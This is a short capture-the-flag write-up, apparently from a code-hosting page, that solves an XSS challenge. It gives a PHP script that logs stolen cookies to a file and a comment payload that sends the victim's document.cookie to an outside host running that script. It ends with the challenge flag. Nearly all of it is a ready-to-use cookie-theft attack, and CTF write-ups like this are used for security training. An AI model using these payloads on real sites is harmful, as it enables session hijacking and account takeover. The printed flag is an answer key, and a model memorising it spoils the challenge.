 Site is vulnerable to XSS

Host the following PHP script on any free hosting service

```
<?php
$cookie = $HTTP_GET_VARS["cookie"];
$steal = fopen("cookiefile.txt", "a");
fwrite($steal, $cookie ."\n");
fclose($steal);
?>
```

Post this comment after changing "my.domain/cookie.php" to wherever your php file is hosted

```
<a href="javascript:location='http://my.domain/cookie.php?cookie='+document.cookie" onclick="">click here</a>
```

The flag will now appear in cookiefile.txt

flag=CTF{I_haz_c47n1p.nom.nom.nom}
